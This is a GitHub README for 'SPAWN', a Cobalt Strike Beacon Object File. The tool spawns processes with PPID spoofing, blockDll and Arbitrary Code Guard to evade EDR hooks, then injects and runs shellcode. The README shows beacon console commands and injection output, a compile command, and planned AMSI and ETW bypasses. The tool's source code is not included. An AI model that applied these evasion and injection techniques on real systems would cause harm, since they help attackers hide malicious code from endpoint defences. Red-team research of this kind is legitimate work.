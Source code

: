 ## SPAWN - Cobalt Strike BOF
Cobalt Strike BOF that spawns a process, then injects & executes shellcode. Built to evade EDR/UserLand hooks by spawning the process with Arbitrary Code Guard (ACG), BlockDll, and PPID spoofing.


## New Features (08/01/2021)
+ Spawn process with Arbitrary Code Guard (ACG) to prevent EDR solutions from hooking the process.
  + See (Adam Chester's "Protecting Your Malware" blog for full details)[https://blog.xpnsec.com/protecting-your-malware/]. This part of the BOF is derived from his work.
+ Inject & Execute shellcode.  
#### Popin' Calc from ACG Protected Process
![](/images/8update.png)
```bash
beacon> spawn notepad.exe 6248 /Users/bobby.cooke/git/boku7/SPAWN/popCalc.bin
[*] SPAWN (Bobby Cooke//SpiderLabs|@0xBoku|github.com/boku7)
[+] Opened handle 0x534 to process 6248(PID)
[+] Spawned process: notepad.exe | PID: 8404 | PPID: 6248
[+] Allocated RE memory in remote process 8404 (PID) at: 0x00000177A72C0000
[+] Wrote 280 bytes to memory in remote process 8404 (PID) at 0x00000177A72C0000
[+] APC queued for main thread of 8404 (PID) to shellcode address 0x00000177A72C0000
```

## New Features (07/19/2021)
+ CNA Agressor Script interface
```bash
beacon> help
    spawn                     Spawn a process with a spoofed PPID and blockDll
beacon> help spawn
Synopsis: spawn /path/to/exe PPID
beacon> ps
8264  5536  OneDrive.exe                 x86   1           DESKTOP-KOSR2NO\boku 
beacon> spawn cmd.exe 8264
[*] SPAWN (@0xBoku|github.com/boku7)
Opened handle 0x634 to process 8264(PID)
Success! Spawned process: cmd.exe | PID: 5384 | PPID: 8264
```
+ PPID Spoofing
+ Cobalt Strike "like" `blockdll` functionality

### Compile with x64 MinGW:
```bash
x86_64-w64-mingw32-gcc -c spawnSuspendedProcess.c -o spawnSuspendedProcess.o
```
### Run from Cobalt Strike Beacon Console
+ After compile import the spawn.cna script into Cobalt Strikes Script Manager
```bash
beacon> spawn /path/to/exe PPID
```

### To Do List
+ ~Agressor script for better end user experience~   
  ![](/images/cna.png)
+ ~PPID spoofing for better parent-child process relation OPSEC~    
  ![](/images/ppidspoof.png)
  - Here we can see our `cmd.exe` process being spawned with the PPID as `OneDrive.exe`
+ ~implement Cobalt Strike `blockdll` functionality to prevent non-MS signed DLLs from loading into the spawned processes memory~    
  ![](/images/blockdll.png)
  - We see the parent-child process relationship, and that our spawned process has been created with the `Signatures restricted (Microsoft only)`
  - The `Signatures restricted (Microsoft only)` makes it so DLL's not signed by Microsoft cannot be loaded into our spawned process
+ ~~Do not crash the beacon process when the PE file does not exist~~  
  ![](/images/noCrashUpdate.png)
  - No longer crashes on process creation failure!
+ ~Return the PID to the Cobalt Strike console when the new process is spawned~  
  ![](/images/retpid.png)
+ Build out different methods of remote process injection
+ Build out different methods of remote process patching
  + NTDLL.DLL remote process Unhooking
  + ETW remote process Patching/Bypass
  + AMSI remote process Patching/Bypass
  + CLR Loading & .Net assembly injection

### Why did I build this?
##### 1. To learn more about Cobalt Strike BOFs
##### 2. I want flexibility in choosing my sacraficial processes. 
  + Spawning the same process for every fork-and-run seems like bad/predictable OPSEC to me.
  + There are probably methods for this out there or built into CS already. Either way, I wanted to build my own.
##### 3. I have allot of cool BOF ideas that I want to build on this.

### Credits / References
##### PPID Spoofing & blockDll functionality
+ Credit/shoutout to: Adam Chester @_xpn_ + @SEKTOR7net + Raphael Mudge
+ Thank you for the amazing work that you've contributed. I would not be able to publish this without your blogs, videos, and awesome content!
+ Main References for PPID Spoofing & blockdll
  - https://blog.xpnsec.com/protecting-your-malware/
  - https://blog.cobaltstrike.com/2021/01/13/pushing-back-on-userland-hooks-with-cobalt-strike/
  - https://institute.sektor7.net/ (Courses)
##### Raphael Mudge - Beacon Object Files - Luser Demo
+ https://www.youtube.com/watch?v=gfYswA_Ronw
##### Cobalt Strike - Beacon Object Files
+ https://www.cobaltstrike.com/help-beacon-object-files
##### BOF Code References
###### anthemtotheego/InlineExecute-Assembly
+ https://github.com/anthemtotheego/InlineExecute-Assembly/blob/main/inlineExecuteAssembly/inlineExecute-Assembly.cna
###### ajpc500/BOFs
+ https://github.com/ajpc500/BOFs/
###### trustedsec/CS-Situational-Awareness-BOF
+ https://github.com/trustedsec/CS-Situational-Awareness-BOF
##### Sektor7 Malware Dev Essentials course - learned how to do the early bird injection technique
+ https://institute.sektor7.net/red-team-operator-malware-development-essentials
